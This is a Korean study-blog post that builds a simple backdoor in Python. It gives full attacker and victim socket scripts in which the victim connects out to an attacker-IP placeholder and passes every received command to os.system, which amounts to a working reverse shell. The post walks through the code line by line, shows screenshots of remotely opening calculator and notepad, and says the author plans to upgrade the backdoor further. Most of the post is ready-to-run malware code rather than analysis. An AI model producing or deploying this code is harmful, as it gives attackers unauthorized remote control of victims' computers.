 ```yaml
---
title:  "백도어/Backdoor 악성코드 파이썬 구현 version 0"  

categories:
  - Study
tags:
  - [Hacking, Backdoor, python]
date: 2022-09-04
last_modified_at: 2022-09-04
---
```

## 1️⃣ 백도어란?

- 백도어는 뒷문 이라는 뜻으로, 하드웨어나 소프트웨어 등의 개발과정이나 유통과정 중에 몰래 탑재되어 정상적인 인증 과정을 거치지 않고 보안을 해제할 수 있도록 만드는 악성코드이다
- [더 알아보기](https://ko.wikipedia.org/wiki/%EB%B0%B1%EB%8F%84%EC%96%B4)

더 알아볼건 없으니 바로 파이썬으로 간단히 구현해봅시다.

> 소켓지식을 필요로 합니다! 모르신다면 이해에 어려움을 겪을 수 있습니다!

<br>

## 2️⃣ 백도어 구현

**공격자**
```python
import socket #소켓 모듈

server = ('0.0.0.0', 8080)
s = socket.socket()
s.bind(server)
s.listen()
conn, address = s.accept() # victim에서 온 요청을 수락
print(conn.recv(1024).decode()) # 누구인지 확인

while True: #쉘 
  cmd = input("> ")
  conn.send(cmd.encode()) # strip은 불필요한 공백을 제거
  data = conn.recv(1024).decode()
  print(data)

  if cmd.strip() == 'q': #종료
    break

s.close()
```

**공격대상**
```python
import socket
import os

attacker = ('<공격자IP주소>', 8080) 
s = socket.socket()
s.connect(attacker)
s.send(b"Hello, this is victim.") # 빅팀에서 접속했다는 의미

while True:
  data = s.recv(1024).decode().strip() # strip은 불필요한 공백을 제거
  # 받은 데이터가 q라면 exit
  if 'q' == data:
    result = 'program exited'
    s.send(result.encode())
    print(result)
    break
  # 받은 데이터가 어떤 값으로 시작하는지 식별
  if data.startswith('cd '): #경로 이동
    os.chdir(data[3:])
    result = 'moved to ' + str(os.getcwd())
    s.send(result.encode())
  else:
    os.system(data) #경로 이동이 아닐시 그냥 cmd실행
    s.send(b"excuted" + data.encode())
s.close()
```

<br>

## 3️⃣ 코드 설명

**공격자 코드(server)**

```python
import socket

server = ('0.0.0.0', 8080)
s = socket.socket()
s.bind(server)
s.listen()
```
- 파이썬 소켓 모듈을 이용하여 자신의 컴퓨터 8080포트에서 클라이언트의 접속을 기다립니다.

```python
conn, address = s.accept() 
print(conn.recv(1024).decode())
```
- 클라이언트의 요청이 들어온 후, 클라이언트에서 보낸 메세지를 출력

**공격대상 코드(client)**

```python
import socket
import os

attacker = ('<공격자IP주소>', 8080) 
s = socket.socket()
s.connect(attacker)
s.send(b"Hello, this is victim.")
```
- 공격자에게 접속한 후, 자신이 누구인지 서버에게 전송

이제 실제 쉘 구현 부분을 살펴보도록 하겠습니다

**공격자 코드(server)**

```python
while True:
  cmd = input("> ")
  conn.send(cmd.encode()) 
  data = conn.recv(1024).decode()
  print(data)

  if cmd.strip() == 'q':
    break

s.close()
```

**공격대상 코드(client)**

```python
while True:
  data = s.recv(1024).decode().strip() 
  if 'q' == data:
    result = 'program exited'
    s.send(result.encode())
    print(result)
    break
  if data.startswith('cd '): 
    os.chdir(data[3:])
    result = 'moved to ' + str(os.getcwd())
    s.send(result.encode())
  else:
    os.system(data)
    s.send(b"excuted" + data.encode())
s.close()
```
- q일시 빽도어 종료
- 서버에서 cd를 붙이고 전송시 인자로 준 곳으로 디렉터리 이동을 합니다
- 위 두가지가 아니라면 그냥 받은 명령어를 cmd에서 실행

<br>

## 4️⃣ 실행화면

- 실제 실행 화면 입니다. IDLE로 진행하였습니다.
- 제대로 만들었다는 것을 확인하기 위해 C:\Windows\System32에 존재하는 계산기와 노트패드를 실행해보도록 하겠습니다.

1. 클라이언트 접속
![접속](../../imgs/%EB%B0%B1%EB%8F%84%EC%96%B40/%EC%A0%91%EC%86%8D.PNG)
2. C:\Windows\System32로 이동
![이동](../../imgs/%EB%B0%B1%EB%8F%84%EC%96%B40/%EC%9D%B4%EB%8F%99.PNG)
- 클라이언트 측에서는 출력이 없는게 정상입니다.
3. 계산기 실행
![계산기](../../imgs/%EB%B0%B1%EB%8F%84%EC%96%B40/%EA%B3%84%EC%82%B0%EA%B8%B0.PNG)
- 계산기 실행에 성공했습니다!
4. 노트패드 실행
![노트패드](../../imgs/%EB%B0%B1%EB%8F%84%EC%96%B40/%EB%85%B8%ED%8A%B8%ED%8C%A8%EB%93%9C.PNG)
- 노트패드 실행도 성공!
5. 접속 종료
![종료](../../imgs/%EB%B0%B1%EB%8F%84%EC%96%B40/%EC%A2%85%EB%A3%8C.PNG)
- 종료

<br>

## 5️⃣ 마무리

이제부터 계속해서 백도어를 업그레이드 해나갈려고 합니다! 

아직은 version 0이지만, 앞으로 기대해주세요!

***
<br>

    🌜 개인 공부 기록용 블로그입니다. 오류나 틀린 부분이 있을 경우 
    언제든지 댓글 혹은 메일로 지적해주시면 감사하겠습니다! 😄

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}